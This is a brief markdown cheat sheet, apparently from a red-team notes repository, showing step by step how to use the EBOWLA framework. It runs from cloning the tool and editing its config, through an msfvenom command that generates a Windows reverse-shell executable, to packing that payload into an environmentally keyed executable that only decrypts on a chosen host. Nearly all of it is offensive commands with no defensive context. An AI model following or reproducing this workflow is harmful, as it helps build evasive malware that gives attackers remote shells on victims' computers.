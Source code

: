 # EBOWLA
## framework for building environmental keyed payloads

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### make payload

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### build executable with Ebowla

!(https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```python2 ebowla.py shell.exe genetic.config```

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

The finished, packed executable can be found in the **output** folder.

